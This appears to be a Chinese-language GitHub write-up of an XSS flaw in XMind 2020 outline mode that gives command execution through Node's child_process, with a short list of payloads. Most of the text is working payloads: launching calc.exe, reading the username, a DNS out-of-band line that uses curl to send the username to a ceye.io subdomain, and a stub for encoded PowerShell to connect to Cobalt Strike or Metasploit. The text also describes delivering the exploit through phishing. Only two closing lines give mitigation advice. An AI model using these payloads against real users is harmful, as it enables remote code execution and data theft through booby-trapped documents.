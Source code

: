 # XMind 2020 存在XSS可导致命令执行
> XMind 2020存在XSS漏洞，攻击者在大纲模块下，可在主题中插入恶意代码，当用户按下键盘上的功能键时（例如shift、command、enter、control、ctrl等），即可触发漏洞。实战中，攻击者可通过钓鱼的方式，利用该XSS漏洞实现命令执行，例如可DNS带外传输主机信息或直接上线到CS/MSF等。
## 部分payload
* 简单弹窗<br>`<img src=1 onerror=alert("1")>`<br>
* 弹计算器<br>`<img src=# onerror="require('child_process').exec('calc.exe',null);">`<br>
* 弹用户名<br>`<img src=x onerror="const exec = require('child_process').exec;exec('whoami').stdout.on('data', function (data) {alert(data);})">`
![image](https://user-images.githubusercontent.com/53027649/124340974-c5f69080-dbeb-11eb-990c-078a7cba2543.png)
* DNS带外<br>``<img src=x onerror="const exec = require('child_process').exec;exec('curl `whoami`.domain.ceye.io').stdout.on('data', function (data) {alert(data);})">``<br>
![image](https://user-images.githubusercontent.com/53027649/124340984-d0b12580-dbeb-11eb-8e4c-990e508c66ca.png)
* 通过对powershell进行编码，然后替换payload上线CS<br>`<img src=x onerror="const exec = require('child_process').exec;exec('powershell（……）').stdout.on('data', function (data) {alert(data);})">`
## 处置建议
* 目前官方暂未对该漏洞进行修复；
* 警惕外来的XMind文件，谨慎打开大纲模式!
